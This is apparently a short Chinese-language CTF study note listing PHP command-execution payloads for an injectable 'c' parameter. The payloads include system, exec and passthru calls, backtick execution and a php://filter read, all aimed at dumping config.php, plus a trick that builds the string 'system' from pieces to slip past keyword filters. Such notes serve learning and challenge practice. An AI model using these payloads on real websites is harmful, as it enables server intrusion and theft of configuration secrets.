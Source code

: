 1. 可以用系统函数:system exec highlight 

   * system('ls');
   * exec()
   * highlight

2. 其他函数 passthru echo php伪协议

   * passthru('ls');

   * echo `tac config.php`;

     ```php
     PHP 支持一个执行运算符：反引号（``）。注意这不是单引号！PHP 将尝试将反引号中的内容作为 shell 命令来执行，并将其输出信息返回（即，可以赋给一个变量而不是简单地丢弃到标准输出）。
     ```

   * 伪协议:include('php://filter/read=convert.base64-encode/resource=config.php');

3. 用get方式

   ```php
   ?c=echo \`$_GET[1]`\;&1=tac config.php
   ```

4. 构造system

   ```php
   ?c=$a='sys';$b='tem';$d=$a.$b;$d('cat config.php');
   ```


